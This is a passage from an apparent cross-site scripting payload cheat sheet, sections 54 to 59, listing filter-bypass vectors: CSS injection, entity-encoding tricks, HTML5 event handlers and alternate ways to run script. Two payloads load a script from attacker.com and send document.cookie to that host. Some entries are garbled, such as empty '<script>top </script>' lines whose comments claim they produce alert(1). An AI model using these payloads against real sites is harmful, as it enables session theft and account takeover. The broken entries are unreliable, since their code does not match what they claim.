 ### **54. CSS and Style Injection Techniques**
Injecting CSS to trigger JavaScript or abusing the `style` tag.

```html
<div style="width:expression(alert(1))">X</div>  // Internet Explorer-specific CSS
<x style="behavior:url(#default#time2)" onbegin="alert(1)">  // IE behaviors
<style>@import 'javascript:alert(1)';</style>  // Leveraging CSS @import
<div style="background:url(javascript:alert(1))">CSS Injection</div>
```

### **55. Using HTML Encoding Bypass**
Combining multiple encoding methods to confuse security filters.

```html
<script>&#97&#108&#101&#114&#116&#40&#49&#41</script>  // Decimal encoding mixed in a script
<img src='x' one&#x6Eerror=alert(1)>  // Mixing hex and text encoding
<scr&#x69;&#x70;t>alert(1)</scr&#x69;&#x70;t>  // Mixed with hexadecimal for tags
```

### **56. JavaScript Bypass Using Alternate Methods and Properties**
Using alternate ways to execute JavaScript without directly invoking alert or script.

```html
<script>top </script>  // Constructing alert dynamically
<iframe src="javascript:document.body.appendChild(document.createElement('script')).src='//attacker.com/xss.js';"></iframe>
<script>fetch('http://attacker.com/?'+document.cookie)</script>
<script>setTimeout('alert(1)',0)</script>
<svg onload="[].map.call('XSS', eval)">  // Abuse `eval` with `map`
```

### **57. Use of JavaScript Special Characters and Keyword Aliases**
Avoiding keyword-based filters by using JavaScript's flexible syntax.

```html
<script>self</script>  // Evaluates to alert(1)
<script>top </script>  // Alert with numeric trick
<svg onload="confirm.call(this,'XSS')">  // Using alternative function call like `confirm`
```

### **58. Bypass Using HTML5 Interactive Elements**
Injecting XSS vectors within interactive HTML5 elements.

```html
<form><input type="text" value="XSS" autofocus onfocus="alert(1)"></form>
<meter value="0.5" onmouseover="alert(1)">0.5</meter>
<output onforminput="alert(1)">XSS</output>
<keygen autofocus onfocus=alert(1)>  // Exploiting deprecated keygen tag
```

### **59. Self Executing JavaScript Functions**
Using self-executing anonymous functions to trigger XSS.
